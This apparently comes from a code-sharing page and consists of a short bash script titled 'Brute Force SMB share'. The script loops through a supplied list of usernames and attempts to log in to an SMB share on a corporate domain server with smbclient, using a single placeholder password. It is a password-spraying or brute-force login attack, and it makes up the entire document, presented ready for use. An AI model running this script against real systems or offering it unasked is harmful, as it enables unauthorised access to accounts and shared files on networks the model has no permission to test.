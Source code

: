 Brute Force SMB share
-------------------------------
```bash
#!/bin/bash
# Usage smb-brute.sh /path/to/list/of/usernames.txt
usernames=$1
while read u; do
#echo $u 
# echo 'DOMAIN-NAME\'$u'%passwordgoeshere'
smbclient \\\\server01.domain.corp.com\\ShareName -U 'Domain-Name\'$u'%passwordgoeshere'
done < "$usernames"
```

